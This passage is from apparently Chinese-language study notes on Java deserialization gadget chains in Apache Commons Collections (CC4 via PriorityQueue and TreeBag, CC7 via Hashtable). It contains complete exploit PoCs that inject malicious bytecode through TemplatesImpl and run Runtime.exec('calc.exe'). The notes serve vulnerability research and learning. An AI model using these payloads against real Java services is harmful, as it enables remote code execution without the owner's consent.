3. 执行后还是报错：`TrAXFilter cannot be cast to java.util.Set`，问题出在 `AnnotationInvocationHandler` 的代理，su18 师傅的 PoC，试了也报相同的错误。TODO：以后有低版本 JDK 的源码就在调试一下，看看能不能避免报错。

4. 调用链大概如下：
    ```java
    /*
    	AnnotationInvocationHandler.readObject()
    	    Map(Proxy 代理对象).entrySet()
                AnnotationInvocationHandler.invoke()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                                InstantiateTransformer.transform()
                                    TrAXFilter.constructor()
                                        TemplatesImpl.newTransformer()
    */
    ```
    

## 10. CC4

### 10.1 CC4-1

1. 如果不用 CC1 的 kick-off 和 `LazyMap`，改用 CC2 的 kick-off 和 `TransformingComparator`，然后保留 CC3 中创新的部分（也就是后面 `tramsform()` 的部分，这样 CC4 就出来了（就搁着杂交）。

2. 直接上 PoC，没啥说的：
    ```java
    @Test
    public void testCC4_1() throws Exception {
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        
        // 2. 构造 sink
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
        // 3. 构造 chain - InstantiateTransformer 和 ChainedTransformer
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>(TrAXFilter.class),
                new InstantiateTransformer<>(new Class[]{Templates.class}, new Object[]{templates}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(transformedChain);
        
        // 4. 构造 kick-off
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>();
        priorityQueue.add("1");
        priorityQueue.add("2");
        // su18 师傅这里该用获取 queue 后修改第一个元素的方法，我这里就直接新建一个覆盖
        Field queueField = priorityQueue.getClass().getDeclaredField("queue");
        queueField.setAccessible(true);
        // 如果像 su18 师傅那样只修改一个的话，那么第二个元素因为不是 TransformerImpl，从而无法调用 `newTransformer()` 而报错
        // 尝试全改成了这个类，结果是命令会调用两次，虽然解决了这个报错，但是最终会引起 TransformerImpl cannot be cast to java.lang.Comparable
        // 只能说，逃不掉的，报错是一定的。
        queueField.set(priorityQueue, new TemplatesImpl[]{templates, templates});
        
        // 5. 将 kick-off 和 chain 相连
        Field comparatorField = priorityQueue.getClass().getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue, transformingComparator);
        String serialize = serialize(priorityQueue);
        unSerialize(serialize);
    ```

### 10.2 CC4-2 新的 kick-off `TreeBag & TreeMap`

1. 在 CC2 中提到：[寻找可以参与序列化，其 `readObject()` 最终会执行排序的逻辑，同时其 `Comparator` 可以指定的类](#8.3 kick-off)。除了 CC2 中的 `PriorityQueue`，现在还寻找到了一个类：`TreeBag`。

2. Java 中第一次听说 `Bag`，先来了解一下 `Bag` 吧。`Bag` 这种数据结构的意义在于，有时候需要在 `Collection` 中存放多个相同对象的拷贝，并且需要很方便的取得该对象中拷贝的个数 。 需要注意的一点是它虽然继承 JDK 中的 `Collection` ，但是如果真把它完全当作 `java.util.Collection` 来用会遇到语义上的问题。
    既然要找和排序相关的，那么就会留意这个接口：`SortedBag`。
    
    定位 `TreeBag`：
    
    看一下他的简介：

    > Implements **SortedBag**, using a **TreeMap** to provide the data storage. This is the standard implementation of a sorted bag.
    > Order will be maintained among the bag members and can be viewed through the iterator.
    > 大意就是：实现 `SortedBag` 接口，使用 `TreeMap` 来存储数据，是一个标准的 sorted bag。`Bag` 内的元素有序，可以通过 `iterator` 来遍历元素。

    通过构造函数可以发现，他的 `comparator` 也存放在了 `TreeMap` 中：
    
    

3. 既然是找它作为 kick-off，那就分析其 `readObject()`：
    
    它先是调用默认的反序列化方法，然后将其中的 `comparator` 取出来，再将其存入到其内部的 `TreeMap`。
    接着跟进 `doReadObject()`：
    
    
    可以看到，`TreeMap.put()` 会进行排序 `compare()`，到此就可以接上 `TransformingComparator`。

### 10.3 CC4-2 PoC

1. PoC 如下，su18 用的是 CC2 的 chain `InvokerTransformer`，中途换用 `toString()` 应该是避免报错；这里个人依旧坚持使用 CC3 的 chain，只不过需要注意的是，`treeBag.add(templates)` 时会提前触发链条，所以先将链条中断，然后再通过反射接回来：
    ```java
    @Test
    public void testCC4_2() throws Exception {
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        
        // 2. 构造 sink
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
        
        // 3. 构造 chain - 这里不能一开始就放入 ConstantTransformer 和 InstantiateTransformer，
        //    否则在 treeBag.add(templates) 时会触发链条从而导致报错。
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>("1"),
                new ConstantTransformer<>("2"),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(transformedChain);
        
        // 4. 构造 kick-off 并和 chain 相连
        TreeBag treeBag = new TreeBag(transformingComparator);
        treeBag.add(templates);
        
        // 5. 这里通过反射将 chain 改回来
        transformers[0] = new ConstantTransformer<>(TrAXFilter.class);
        transformers[1] = new InstantiateTransformer<>(new Class[]{Templates.class}, new Object[]{templates});
        Field iTransformersField = transformedChain.getClass().getDeclaredField("iTransformers");
        iTransformersField.setAccessible(true);
        iTransformersField.set(transformedChain, transformers);
        
        String serialize = serialize(treeBag);
        unSerialize(serialize);
    }
    ```

2. 调用链大致如下：
    ```java
    /*
        org.apache.commons.collections4.bag.TreeBag.readObject()
            org.apache.commons.collections4.bag.AbstractMapBag.doReadObject()
                java.util.TreeMap.put()
                    java.util.TreeMap.compare()
                        org.apache.commons.collections4.comparators.TransformingComparator.compare()
    */
    ```

## 11. CC7 - 其实就是 CC6 变体

### 11.1 新的 kick-off

1. CC7 的 kick-off 为 `Hashtable`，其他的部分和 CC6 一模一样。

2. `Hashtable` 和 `HashMap` 的区别，可以详见 su18 师傅的文章：

    > https://su18.org/post/ysoserial-su18-2/#%E5%89%8D%E7%BD%AE%E7%9F%A5%E8%AF%86-7
    > `Hashtable` 与 `HashMap` 十分相似，是一种 key-value 形式的哈希表，但仍然存在一些区别：
    >
    > - `HashMap` 继承 `AbstractMap`，而 `Hashtable` 继承 `Dictionary` ，可以说是一个过时的类。
    > - 两者内部基本都是使用“数组-链表”的结构，但是 `HashMap` 引入了红黑树的实现。
    > - `Hashtable` 的 key-value 不允许为 null 值，但是 `HashMap` 则是允许的，后者会将 key=null 的实体放在 index=0 的位置。
    > - `Hashtable` 线程安全，`HashMap` 线程不安全。
    >
    > 那既然两者如此相似，`Hashtable` 的内部逻辑能否触发反序列化漏洞呢？答案是肯定的。

3. 先来看 `Hashtable` 的 `readObject()`：
    
    反序列化后，从中取出键值，然后将其存入到 `Entry` 数组 `table` 中，然后调用 `reconstitutionPut()`，继续跟进！
    
    可以看到，其会调用 `key.hashCode()`；这和 CC6 中的 `HashMap` 一样。

### 11.2 PoC 编写

1. 把 CC6 拿过来，基本改一改就出来了：
    ```java
    // cc 4.0
    @Test
    public void testCC7() throws Exception {
        // 1. 构造链 sink
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>(Runtime.class),
                new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        
        // 2. 构造 chain2
        LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
        
        // 3. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
        // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
        TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
        
        // 4. 创建 HashTable 和 HashMap，通过反射修改其 Map 为 HashMap
        Hashtable<Object, Object> toBeSerHashTable = new Hashtable<>();
        toBeSerHashTable.put(lazyMapTiedMapEntry, "随便");
        
        // 5. 将 LazyMap 中存放的 key 删除
        lazyMap.remove("EndlessShw");
        
        // 6. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
        String serialize = serialize(toBeSerHashTable);
        unSerialize(serialize);
    }
    ```

## 12. CC 总结

1. 文章主要参考了：

    > **大纲**：https://su18.org/post/ysuserial/#ysoserial-%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92
    > CC：https://su18.org/post/ysoserial-su18-2/#%E5%89%8D%E7%BD%AE%E7%9F%A5%E8%AF%86-7

    感谢 su18 师傅的总结。

2. 文章中 JDK 的类，在其他链中也有体现，常见的类有：

    1. `AnnotationInvocationHandler`，由于其动态代理的特性，导致作用很灵活。
    2. `TemplatesImpl`，这个类主要是可以加载字节码，从而可以传入各种恶意类，常用于 sink。
    
3. 有关 JDK 补丁的记录：
    https://hg.openjdk.org/jdk8u/jdk8u/jdk
    但是要找到具体是哪个修复补丁的话，目前还是有困难。
